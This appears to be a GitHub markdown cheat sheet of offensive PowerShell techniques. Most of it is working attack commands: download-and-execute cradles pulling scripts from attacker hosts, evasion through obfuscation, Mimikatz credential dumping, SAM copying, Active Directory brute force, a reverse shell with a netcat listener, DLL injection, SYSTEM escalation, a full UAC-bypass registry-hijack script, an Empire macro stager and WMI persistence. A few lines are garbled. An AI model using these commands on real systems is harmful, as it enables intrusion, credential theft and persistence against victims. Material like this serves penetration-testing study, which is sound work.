



# Offensive Powershell

## Downloading and Execution

There are two ways dowload to disk and execute or run within powershell memory. The later is preferred.

To use for running within powershell memory:



Tu run in disk:  
`Net.WebClient DownloadFile method`  
`BITSAdmin.exe`  
`Certutil.exe w/ -urlcache argument`

Both methods are accomplished with help of download cradle.

[System.Net.WebClient](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient?redirectedfrom=MSDN&view=net-5.0)

The most commond download cradle is "iex": [Invoke-Expression](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.1&viewFallbackFrom=powershell-6)'s alias with [Net.WebClient](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient?redirectedfrom=MSDN&view=net-5.0) class and [DownloadString](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?redirectedfrom=MSDN&view=net-5.0#System_Net_WebClient_DownloadString_System_String_) method.

`iex (New-Object Net.WebClient). ("http:attacker.url/script.ps1")` or from command prompt with following command `powershell.exe iex (New-Object Net.WebClient). ('http:attacker.url/script.ps1')`

**Net WebClient Method**

- `$downloader = New-Object System.Net.WebClient`  
    `$payload = "http://attacker.url/script.ps1"`  
    `$command = $downloader.DownloadString($payload)`  
    `Invoke-Expression $command`  
    or can be oneliner `iex (New-Object Net.WebClient).Downloadstring("https://attacker.url/script.ps1")`

enable ssl whenever possible and also try to change extension something differenyt like gif. The powershell will execute as ps1.

- Header.Add method  
    `$downloader = New-Object System.Net.WebClient`  
    `$downloader.Headers.Add("user-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.146 Safari/537.36")`  
    `$payload = "http://attacker.url/script.ps1"`  
    `$command = $downloader.DownloadString($payload)`  
    `iex $command`
    
- Dowloading file to disk  
    `$downloader = New-Object System.Net.WebClient`  
    `$payload = "http://attacker.url/payload.exe"`  
    `$local_file = "C:/Program/payload.exe"`  
    `downloader.DownloadFile($payload, $local_file)`  
    `& $local_file`
    
- To use system proxy and default credentials  
    `$downloader = New-Object System.Net.WebClient`  
    `$payload = "http://attacker.url/script.ps1"`  
    `$cmd = $downloader.DownloadFile($payload)`  
    `$proxy = [Net.WebRequest]::GetSystemWebProxy()`  
    `$proxy.Credentials = [Net.CredentialCache]::DefaultCredentials`  
    `$downloader.Proxy = $proxy`  
    `iex $cmd`
    

**Net.WebRequest**  
[Net.WebRequest](https://msdn.microsoft.com/en-us/library/system.net.webrequest(v=vs.110).aspx)

- `$req = [System.Net.WebRequest]::Create("http://attacker.rl/script.ps1")`  
    `$res = $req.GetResponse()`  
    `iex ([System.IO.StreamReader])($res.GetResponseStream())).ReadToEnd()`
- `$req = [System.Net.WebRequest]::Create("http://attacker.rl/script.ps1")`  
    `$res = $req.GetResponse()`  
    `$proxy = [Net.WebRequest]::GetSystemWebProxy()`  
    `$proxy.Credentials = [Net.CredentialCache]::DefaultCredentials`  
    `$req.Proxy = $proxy`  
    `iex ([System.IO.StreamReader])($res.GetResponseStream())).ReadToEnd()`

**System.Xml.XmlDocument**  
[System.Xml.XmlDocument](https://docs.microsoft.com/en-us/dotnet/api/system.xml.xmldocument?redirectedfrom=MSDN&view=net-5.0)

```script.xml
<?xml version="1.0">
<command>
    <a>
        <execute>Get-Process</execute>
    </a>
</command>
```

Then we can run this by:  
`$xmldoc = New-Object System.Xml.XmlDocument`  
`xmldoc.Load("http://attacker.url/script.xml")`  
`iex $xmldoc.command.a.execute`  
  
  
**Com Objects for Download & Execution**  
[COM Objects](https://docs.microsoft.com/en-gb/windows/win32/com/com-objects-and-interfaces?redirectedfrom=MSDN)



- `$downloader = New-Object -ComObject Msxml2 .XMLHTTP`  
    `$downloader.open("Get","http://attacker.url/script.ps1", $false)`  
    `$downloader.send()`  
    `iex $downloader.responseText`
    
- `$downloader = New-Object -ComObject WinHttpRequest.5.1`  
    `$downloader.open("Get","http://attacker.url/script.ps1", $false)`  
    `$downloader.send()`  
    `iex $downloader.responseText`
    

We can make all these commands in multiliner to single liner with (;) and also can be executed by making into scripts.

`powershell.exe -ExecutionPolicy bypass -Window hidden .\downloader.ps1`

[Invoke-CradleCrafter](https://github.com/danielbohannon/Invoke-CradleCrafter) to obfuscayed download.

* * *

* * *

## Obfuscation

To evade defenses.  
[Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) and put in powershell path environment path.

- `Import-Module Invoke-Obfuscation`  
    *TOKEN* \- Obfuscate Powershell commands into tokens.  
    *AST* \- Obfuscate powershell to AST nodes (powershell 3.0 and greater.)  
    *STRING* \- Obfuscate entire command as string.  
    *ENCODING* \- Obfuscate entire command via encoding.  
    *COMPRESS* \- Convert entire command to one-liner and compress.  
    *LAUNCHER* \- Obfuscate commands args w/Launcher techniques (runs ones it ends).
    
- `SET SCRIPTBLOCK iex (New-Object Net.WebClient).downloadstring("http://192.168.3.3/Script.ps1")`
    
- Select medthod just by calling it by name.  
    `STRING`  
    Then select option you need. reverse option first concatenate and reverse entire string.
    
- Like that you can apply any methods and copy paste the result to run.
    
- `RESET` after one method is applied else the result will be very large.
    
- `LAUNCHER` is also good method for particular function.
    

`Write-Host $encodedCommand` and `powershell.exe -encodedcommand [command]`

* * *

* * *

## Information Gathering and Recon

*Port Scan*



`$po$port in $ports) {try{$socket=New-Object System.Net.Sockets.TcpClient($ip,$port);} catch{}; if ($socket -eq $null) {echo $ip":"$port" - Closed";} else {echo $ip":"$port" - Open"; $socket=$null;}}`

- The same can be obtained by [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) with [Invoke-Portscan](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/Invoke-Portscan.ps1) cmdlet.  
    `Invoke-Portscan -Hosts "192.168.1.1" -PingOnly`  
    `Invoke-Portscan -HostFile ips.txt -PingOnly`  
    `Invoke-Portscan -HostFile ips.txt -PingOnly | Export-Csv c:\ping_scan.csv`  
    `Invoke-Portscan -HostFile live_hosts.txt -ports "53-81"`  
    `Invoke-Portscan -HostFile live_hosts.txt -oG port_scan.gnmap -f -ports "1-81"`

[Get-HttpStatus](https://powersploit.readthedocs.io/en/latest/Recon/Get-HttpStatus/) is like drbuster, dirb....  
`Get-HttpsStatus -Target 192.168.1.2 -Path dictionary.txt -Port 80 | ? {$_.Status -match "ok"}`

[Posh-SecMod](https://github.com/darkoperator/Posh-SecMod)  
`Invoke-ARPScan -CIDR 192.168.1.3/24`  
`Get-Command -Module Posh-SecMod`  
`Invoke-ReverseDnsLookup -CIDR 192.168.13.0/24`  
`Get-Help Resolve-HostRecord -Examples`

* * *

* * *

## Post-Exploitation with Powershell

[Nishang](https://github.com/samratashok/nishang) is very good post-explotation framework.

- **Nishang**
    
    - Copy-VSS module will attemptto copy the SAM database use the VSS service.  
        `iex (New-Object Net.Webclient).DownloadString("http://attacker.url/Copy-VSS.ps1"); Copy-VSS`
    - `iex (New-Object Net.WebClient).DownloadString('http://attacker.url/Get-Information.ps1'); Get-Information`  
        This can give number of Information like:
        - Putty trusted hosts
        - Putty saved session
        - Recently used commands
        - Shares on the target machine
        - Environment Variables
        - Current user details
        - SNMP information
        - Installed applictions
        - Domain name
        - Content of host file
        - Running services
        - Account Policy
        - Local Users
        - Local Groups
        - WLAN info
    - `iex (New-Object Net.WebClient).DownloadString('http://attacker/Invoke-Mimikatz'); Invoke-Mimikatz -DumpCreds`
    - For Brute forcing and Active Directory:  
        `Invoke-BruteForce -ComputerName targetdomain.com -UserList C:\temp\users.txt -PasswordList C:\tmp\pwds.txt -Service ActvieDirectory -StopOnSuccess -Verbose`
    - Reverse powershell Netcat  
        `powershell.exe -Command iex (New-Object Net-WebClient).DownloadString('http://<attacker-url>/Invoke-PowershellTcp.ps1'); Invoke-PowershellTcp -Reverse -IPAddress <listener_ip> -Port 4444`  
        Before that we have to start a netcat listner in our machine: `nc -nlvp 4444`
    - There are several types of shells available in Nishang also complex ones called rat type shells. Explore shell folder for more.
- **Powersploit - PowerUp**
    
    - [https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
    - `Import-Module .\Privesc.psm1`  
        `Get-Command -Module Privesc`  
        `Invoke-AllChecks` will run all function related to the Privesc module looking for misconfigurations, permissions issues with services, oppurtunities for DLL hijacking a number of other useful checks.  
        `Invoke-AllChecks -HTMLReport`
- **Powersploit -DLL Injection**
    
    - `msfvenom -p windows/exec CMD="cmd.exe" -f dll > cmd.dll` or can create a meterpreter reverse shell.
    - `iex (New-Object Net.WebClient).DownloadFile('http://attacker_url/cmd.dll', 'C:\programdata\cmd.dll')`
    - `ps | ? {$_.ProcessName -match "notepad"}` can be used to identify process that we can use to inject dll.
    - `iex (New-Object Net.Webclient).DownloadString('http://attacker_url/Invoke-DLLInjection.ps1'); Invoke-DLLInjection -ProcessID 7420 c:\programdata\cmd.dll`  
        [More info on dll-injection](http://blog.opensecurityresearch.com/2013/01/windows-dll-injection-basics.html)
- **Psgetsystem**
    
    - [decoder-it](https://github.com/decoder-it) you can find inside [psgetsystem](https://github.com/decoder-it/psgetsystem)
    - It allows as to get system privileages via parent process, which then spawns a child process which effectively inherits the SYSTEM access privileges of the parent.
    - `. .\psgetsys.ps1`  
        `[MyProcess]::CreateProcessFromParent(<system_pid>,"command_to_execute>")`
    - `Get-Process -IncludeUserName | Where-Object {$_.UserName -match "SYSTEM"} | Format-List -Property Username,Name,Id` This will list all Administartor privileged process we can select any from the list.
    - `. .\psgetsys.ps1`  
        `[MyProcess]::CreateProcessFromParent(3632,"cmd.exe")`  
        This will launch a cmd.exe prompt, but as a child process of the SYSTEM-owned ZeroConfigService.exe process, and as a result, our "child" process, will also be SYSTEM.
- **Empire**
    
    - [Empire](https://github.com/EmpireProject/Empire)

* * *

* * *

- metasploit  
    `msfvenom -p windows/x64/meterpreter_reverse_https lport 443 lhost=192.168.13.62 -f psh-reflection -o payload.ps1` we can the start handler and execute this in remote target and get powershell environment shell.  
    `load powershell`  
    `powershell_shell`  
    `powershell_execute [command]`

Use web_delivery module to pass control from Empire to metasploit and `usemodule powershell/code_execution/invoke_metasploitpayload` and give url as options then execute.

* * *

* * *

## Empire overview

`shell cmd`  
`usemodule` to use any modules  
`searchmodule checks`  
  
  
`usestager windows/macro`  
`set Listener http`  
`set OutFile /directory/macro`  
Then we can copy paste this content to word visual editor page.

* * *

* * *

## UAC Bypass Powershell Exploit Script

Find auto elevate applications which will auto elevate themself to high integrity without running as administrator.

Start mscongig.exe

To see manifest open pesstudio and open the application in it. Then see manifest option and check for auto-elevate is enabled.

compmngmtexplorer.exe

Just like dll injection we can use process explorer and procman.

take procman and see whats happening. Put filter for Name not found and msc file and edit. Open regedit to edit registry key.

```.ps1
<#
UAC Bypass
#>


    Echo "[+] Checking UAC status"
    
    $ConsentPrompt = (Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System).ConsentPromptBehaviourAdmin
    $SecureDesktopPrompt = (Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System).PromptOnSecureDesktop
    
    if($ConsentPrompt -Eq 2 -And $SecureDesktopPrompt -Eq 1) {
        "[!] UAC is always set to notify. I can't help you."
        exit
    }
    
    else{
        Echo "[*] UAC status OK and set to Default."
        
        $MscRegPath = "HKCU:\Software\Classes\mscfile\shell\open\command"
        $ValName = "[Default]"
        $RegValue = "cmd /c copy C:\users\localadmin\desktop\test.txt C:\windows\system32\test.txt"
        
        New-Item -Path $MscRegpath -Force | Out-Null
        New-ItemProperty -Path $MscregPath -Name $ValName -Value $Regvalue | Out-Null
        
        $CompMgmtBypass = '"wmic process call create "cmd.exe /c start /min C:\windows\system32\CompMgmtlauncher.exe""'
        
        $a_cmd = "C:\windows\system32\cmd.exe"
        &$a_cmd = $CompMgmtBypass
        
        Start-Sleep -s 5
        
        # Cleanup registry modifications
        
        $MscRegCleanup = "HKCU:\Software\Classes\mscfile"
        Remove-Item -Path $MscRegCleanup -Force -ErrorAction SilentlyContinue | Out-Null
    }
```

***
***

## Introduction to leveraging WMI and Methods for Persistance

`wmic /?`
`Get Wmi-Object`
`Get-WmiObject -Namespace "root/cimv2" -Class "__Namespace"`
`Get-WmiObject -Namespace "root/cimv2" -Class "__Namespace" | Select-Object Name`
`Get-WmiObject -Namespace "root/cimv2" -List`
`Get-WmiObject -Namespace "root/cimv2" -List | Where-Object {$_.Name -Match "Win32_Service"}`
`Get-WmiObject -Class Win32_Service`
`Get-WmiObject -Class Win32_Service | Where-Object {$_.State -Match "Running"}`
`Get-WmiObject -Class Win32_Service | Where-Object {$_.Name -Match "Defend"}`
`Get-WmiObject -Class Win32_Process -List`
`Get-WmiObject -Class Win32_Process -List | Get-Member -MemberType Method`
`$proc = Get-WmiObject -List Win32_Process` + `$proc.Create("cmd.exe")`
`Invoke-WinMethod -Class Win32_Process -Name create -ArgumentList cmd.exe`
`Invoke-WmiMethod -Class win32_Process -Name create -ArgumentList cmd.exe -ComputerName 192.168.13.60 -Credential localadmin`
`Invoke-WmiMethod -Class win32_Process -Filter {ProcessId = "2512"} -ComputerName 192.168.13.60 -Credential localadmin`
`Invoke-WmiMethod -Class win32_Process -Filter {ProcessId = "2512"} -ComputerName 192.168.13.60 -Credential localadmin | Remove-wmiObject`
<br>
Download payload target host. Then create handler in our system.
Downlaod PowerLurk.ps1 with following command:
`IEX (NewObject Net.WebClient).DownloadString('http://192.168.1.1/PowerLurk.ps1'); Register-MaliciousWmiEvent -EventName CalcExec -PermanentCommand "cmd.exe /c C:\programdata\payload.exe" -Trigger ProcessStart -ProcessName cal.exe`
***
***

